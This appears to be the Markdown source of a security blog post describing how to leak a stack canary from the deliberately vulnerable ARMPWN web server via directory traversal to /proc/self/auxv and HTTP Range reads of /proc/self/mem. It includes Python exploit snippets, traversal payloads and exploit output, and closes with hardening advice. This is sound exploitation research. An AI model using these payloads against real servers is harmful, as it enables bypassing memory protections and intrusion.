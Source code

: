 ```yaml
---
layout: post
title: "ARMPWN redux: canary reloaded"
author: hugsy
author_twitter: _hugsy_
author_email: hugsy@[RemoveThisPart]blah.cat
author_github: hugsy
tags: linux exploit arm ssp armpwn
header-img: "img/canary-header.png"
---
```


>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

## Intro ##

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is {% include link.html title="here" href="https://www.elttam.com.au/blog/playing-with-canaries" %}
  * the code repository is {% include link.html title="there" href="https://github.com/elttam/canary-fun" %}

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8) (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/2016/06/12/armpwn-challenge), a vulnerable web server
created by  {% include icon-twitter.html username="@5aelo" %} to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176)
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976)


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201)
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

{% highlight c %}
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
{% endhighlight %}

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary).


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

{% highlight python %}
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
{% endhighlight %}

And then parse the result:

{% highlight python %}
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
{% endhighlight %}

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

{% highlight python %}
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
{% endhighlight %}


_Note_: `yama/ptrace_scope` must be set to 0 to be able to read the process
memory.


### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

{% highlight text %}
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
{% endhighlight %}

![](https://cdn.meme.am/cache/instances/folder864/18614864.jpg)

To be we fetched the correct value for the canary of the remote process, we can
use
[this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally
to compare the values for the canary:

{% include image.html src="https://i.imgur.com/IWpuMIy.png" alt="demo" %}



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore
defeat the SSP protection. As you may have noticed, since this attack does not
rely on memory corruption, it is extremely reliable. And it is also much faster:
the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to
determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as
possible, especially on production systems, since restricting `ptrace`, or
refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any
question/comment ☕
